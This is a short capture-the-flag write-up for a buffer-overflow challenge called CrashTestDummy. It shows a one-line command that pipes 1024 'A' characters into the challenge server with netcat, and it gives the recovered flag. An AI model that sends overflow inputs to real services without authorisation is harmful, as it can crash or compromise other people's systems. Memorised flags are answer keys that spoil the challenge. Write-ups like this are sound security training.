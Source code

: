 # CrashTestDummy - Points: 25

### Description:

Can you learn a lot from a dummy? Connect with nc challenge.acictf.com 31795 and recover the flag.

### Hints

 - Open up and say AAAAAH

### Solution

I literally just gave it a ton of `A`s.

    shombo$ python -c "print 'A' * 1024" | nc challenge.acictf.com 31795

    Source: https://www.adcouncil.org/Our-Campaigns/The-Classics/Safety-Belt-Education

    The single most effective protection against death and serious injury 
    in a car crash is the safety belt. Since Vince & Larry, the Crash 
    Test Dummies, were introduced to the American public in 1985, safety 
    belt usage has increased from 14% to 79%, saving an estimated 85,000 
    lives, and $3.2 billion in costs to society. The campaign tagline, 
    "You Could Learn A Lot From a Dummy," as well as the crash test dummies 
    themselves, was retired in 1999, when the U.S. Department of 
    Transportation revised the campaign.


    Have you seen these commericals? You made me crash!


### Flag: `ACI{Buffers_are_made_to_be_Overflow__e2f3c737}`

